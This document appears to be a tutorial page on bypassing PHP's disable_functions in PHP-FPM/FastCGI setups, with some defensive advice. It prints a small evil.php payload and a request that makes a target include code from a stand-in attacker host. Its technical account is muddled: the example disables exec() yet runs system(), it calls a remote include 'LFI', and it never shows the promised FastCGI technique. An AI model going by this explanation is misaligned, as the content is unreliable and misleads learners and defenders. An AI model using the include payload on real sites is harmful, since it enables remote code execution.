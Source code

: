 # disable_functions bypass - php-fpm/FastCGI


# 👉 Overview

---

### 👀 What ?

PHP's disable_functions is a configuration directive that allows server administrators to disable certain PHP functions that they consider to be potentially harmful. The disable_functions bypass technique is used in the context of exploiting PHP-FPM/FastCGI setups. PHP-FPM (FastCGI Process Manager) is an alternative PHP FastCGI implementation that is particularly suited for websites requiring high performance.


### 🧐 Why ?

Understanding disable_functions bypass in PHP-FPM/FastCGI is crucial for cybersecurity professionals, server administrators, and web developers. It is important because it helps identify potential security risks and vulnerabilities in server configurations. Misconfigurations could allow malicious users to bypass disable_functions directive which could lead to severe security issues including remote code execution (RCE) and unauthorized access to system resources.


### ⛏️ How ?

To use the disable_functions bypass, an attacker usually needs to have a certain level of access to the server. This could be through an existing vulnerability in an application running on the server. The attacker then attempts to manipulate PHP-FPM/FastCGI configurations to ignore the disable_functions directive. Because of the potential risks, server administrators should regularly check and properly configure disable_functions directive and be aware of potential bypass techniques.


### ⏳ When ?

The use and exploitation of disable_functions bypass in PHP-FPM/FastCGI has been known since PHP introduced the disable_functions directive in PHP 4.0.3, which was released in 2000. It has been a topic of interest in the cybersecurity community due to the potential security implications if not properly handled.


# ⚙️ Technical Explanations

---

The `disable_functions` directive in PHP allows server administrators to disable specific PHP functions that could potentially be exploited by attackers. This could include functions like `exec()`, `shell_exec()`, and `system()` which, when misused, might lead to severe security risks such as remote code execution or unauthorized access to system resources.

However, in certain setups of PHP-FPM (FastCGI Process Manager) and FastCGI, it's possible for attackers to bypass this directive due to misconfigurations. PHP-FPM is an alternative PHP FastCGI implementation that is known for its high performance. It is often used in high-traffic websites and applications.

The bypassing of the `disable_functions` directive typically happens when PHP-FPM is not correctly isolated and secured. For instance, an attacker could exploit a local file inclusion (LFI) vulnerability to execute arbitrary code, thus bypassing the `disable_functions` directive. An LFI vulnerability occurs when an application allows user-supplied input in file or directory paths. This could lead to unauthorized file access or even code execution.

It is therefore crucial for server administrators to properly configure and secure their PHP-FPM and FastCGI setups. This involves ensuring that PHP-FPM is correctly isolated and that the `disable_functions` directive is properly configured. Regular checks should be performed to prevent potential bypass techniques.

The `disable_functions` bypass technique in PHP-FPM/FastCGI has been known since PHP 4.0.3, which was introduced in 2000. This issue remains relevant due to the potential security implications if not properly managed. As such, understanding this bypass technique is vital for cybersecurity professionals, server administrators, and web developers. It helps in identifying potential security risks and vulnerabilities in server configurations, leading to a safer and more secure web environment.

For example, let's consider a PHP application running on a server with PHP-FPM and FastCGI. The server has disabled the function `exec()` using the `disable_functions` directive.

```php
; php.ini
disable_functions = exec

```

However, due to a Local File Inclusion (LFI) vulnerability, an attacker can run arbitrary code. They could do this by tricking the application into including a file from an external source, which contains malicious PHP code.

```php
// Attacker's external file - evil.php
<?php
  system('id');
?

```

The attacker could then make a request to a vulnerable endpoint in the application.

```bash
<http://targetsite.com/vuln_page.php?file=http://attackersite.com/evil.php

```

The application includes the malicious file, and the `system('id')` command is executed, bypassing the `disable_functions` directive.

Here, the crucial step was that the attacker was able to exploit an LFI vulnerability in the application. To prevent this, the application should validate user-supplied input for file includes, and the server should be configured to disallow including files from external sources.

Moreover, the PHP-FPM should be correctly isolated and secured. For example, using containers or chroot environments to isolate the PHP-FPM processes can prevent an attacker from escalating their privileges even if they manage to execute arbitrary code.

```bash
; www.conf
[www]
chroot = /home/www/

```

These examples demonstrate the importance of proper server configuration, application security, and awareness of potential bypass techniques.
